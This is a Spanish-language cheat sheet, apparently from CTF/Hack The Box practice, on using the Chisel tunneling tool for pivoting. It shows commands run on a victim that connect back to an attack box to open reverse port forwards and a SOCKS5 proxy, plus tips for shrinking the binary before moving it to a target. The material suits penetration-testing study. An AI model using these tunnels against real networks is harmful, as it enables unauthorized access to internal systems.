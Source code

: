 # Chisel Cheat Sheet

Uso típico. Los ejemplos suponen que el cuadro de ataque es 10.10.14.3 y que el cliente se ejecuta desde 10.10.10.10.

Iniciar el servidor escuchando en 8000:

`./chisel server -p 8000 --reverse`

De la víctima:

| Dominio | Notas |
|---------|-------|
|`chisel client 10.10.14.3:8000 R:80:127.0.0.1:80` |	Escuchar el ataque en 80, reenviar al puerto local 80 en el cliente |
|`chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80` |	Escuche el ataque a 4444, reenvíe al puerto 80 10.10.10.240 |
|`chisel client 10.10.14.3:8000 R:socks` | Crear un receptor `SOCKS5` en 1080 en caso de ataque, proxy a través del cliente |

El autor de Chisel lo describe así:
`
Chisel es un túnel TCP rápido, transportado a través de HTTP, protegido mediante SSH. Un único ejecutable que incluye tanto al cliente como al servidor. Escrito en Go (golang). Chisel es principalmente útil para atravesar cortafuegos, aunque también se puede utilizar para proporcionar un punto final seguro en su red. Chisel es muy similar a Crowbar, aunque logra un rendimiento mucho mayor.
`

Para mí, eso significa que puedo ejecutar un servidor en mi equipo de ataque y luego conectarme a él desde los equipos de destino. Al realizar esa conexión, puedo definir diferentes tipos de túneles que quiero configurar.

## Instalación
```console
d4nex@kali:~$ git clone https://github.com/jpillora/chisel.git
Cloning into 'chisel'...
remote: Enumerating objects: 33, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (27/27), done.
remote: Total 1151 (delta 7), reused 18 (delta 5), pack-reused 1118
Receiving objects: 100% (1151/1151), 3.31 MiB | 19.03 MiB/s, done.
Resolving deltas: 100% (416/416), done.
```

Ahora, dentro del directorio chisel, ejecutaré `go build`. Puede que descargue algunos bits adicionales y, cuando termine, tendré un binario de chisel:
```
d4nex@kali:~$ ls -lh chisel 
-rwxr-xr-x 1 root root 10M Dec 17 06:47 chisel
```

Ippsec señala que se trata de 10 MB, un archivo de gran tamaño para moverlo al destino en algunos entornos. Muestra cómo se puede ejecutar `go build -ldflags="-s -w"` y reducir a 7,5 MB (donde `-s` es “Omitir toda la información de símbolos del archivo de salida” o eliminar, y `-w` es “Omitir la tabla de símbolos DWARF”). También muestra cómo upxreducirlo a 2,9 MB si el ancho de banda es limitado.

## Servidor

Primero, configuraré el servidor en mi equipo local. El binario que creé actúa como cliente y servidor, y si ejecuto `./chisel --help`, veré lo siguiente:
```console
d4nex@kali:~$ ./chisel --help

  Usage: chisel [command] [--help]

  Version: 0.0.0-src

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

Entonces, para iniciar el servidor, ejecutaré `./chisel server -p [port] --reverse`. `-p` me permitirá especificar a chisel en qué puerto escucha. Si no proporciono esto, intentará 8080 de forma predeterminada, lo que a menudo falla ya que casi siempre tengo Burp ejecutándose en 8080. `--reverse` le dice al servidor que quiero que los clientes que se conectan puedan definir túneles inversos. Esto significa que los clientes que se conectan pueden abrir puertos de escucha en mi caja de ataque. Eso es lo que quiero aquí, pero tenga en cuenta lo que se le permite hacer.

Hay otras opciones que quizás quiera añadir también:

`--host` me permite definir en qué interfaz escuchar, siendo todas ellas (0.0.0.0) las predeterminadas.
`--key` Me permite generar un par de claves que se utilizan para la conexión. Esto aporta algo de seguridad, pero, por otra parte, la clave tendrá que estar en el equipo de destino que se conecta de nuevo, de modo que cualquiera que la obtenga podrá conectarse.
`--authfile` y `--auth` permiten especificar los nombres de usuario y contraseñas necesarios para conectarse.
`-v` Activa el registro detallado en la terminal.

## Cliente 

Moveré una copia de chisel al objetivo y lo ejecutaré como `./chisel client [server ip]:[server port] [remote string] [optional more remote strings]`.

Al ejecutar esto se conectará al servidor proporcionado y creará un túnel para cada cadena remota proporcionada.

Las cadenas remotas tienen el formato `<local-host>:<local-port>:<remote-host>:<remote-port>` definido por chisel. Creo que es más intuitivo pensar en ello como `<listen-host>:<listen-port>:<forward-host>:<forward-port>`, pero utilizaré los nombres de chisel que se usan en esta publicación.

De los cuatro elementos, solo se requiere el puerto remoto. Si `local-host` no se proporciona, asumirá 0.0.0.0 en el cliente. Si `local-port` no se proporciona, se utilizará de forma predeterminada el mismo que el `remote-port`. Si `remote-host` no se proporciona, se utilizará de forma predeterminada el servidor. Puede proporcionarlo `R` para que `local-host` indique que desea escuchar en el host remoto (es decir, abrir el receptor en el servidor). En ese caso, el túnel irá en la dirección inversa.

## Ejemplos

### Socks Proxys

Del lado del atacante `./clisel server -p 8000 --reverse`.

En el cuadro que desea utilizar como proxy, ejecute `./chisel client 1.1.1.1:8000 R:socks`.

Esto iniciará un oyente que atacará el puerto `1080`, que es un `proxy SOCKS5` a través del cliente Chisel.

Texto original:
`
Ippsec mostró esto al final de su video y vale la pena verlo. chisel solo permite que el servidor actúe como un sock proxy. Pero, en el caso de Reddish, no tengo una forma de conectarme directamente a ese servidor. Usaré chisel para configurar un túnel para poder conectarme a otro chisel en la dirección opuesta:
`
```bash
./chisel server -p 8000 --reverse #En el box local, como de costumbre.
./chisel client 1.1.1.1:8000 R:8001:127.0.0.1:9001 #En el cuadro de destino. Ahora, todo lo que envíe a localhost:8001 en el cuadro de ataque se reenviará a localhost:9001 en el destino.
./chisel server -p 9001 --socks5 #En el objetivo. Ahora tengo un chisel servidor que escucha en 9001, en modo Socks, y una forma de obtener tráfico hacia ese puerto.
./chisel client localhost:8001 socks #En el cuadro de ataque. Esta conexión se reenvía a través del primer túnel y se conecta al servidor que se ejecuta en el cuadro. Ahora, mi host local está escuchando en el puerto 1080 (predeterminado, se puede cambiar con argumentos) y enviará tráfico al destino y luego lo enviará por proxy de salida.
```
Ahora puedo usar proxychains o FoxyProxy para interactuar con la red detrás del objetivo de forma natural.


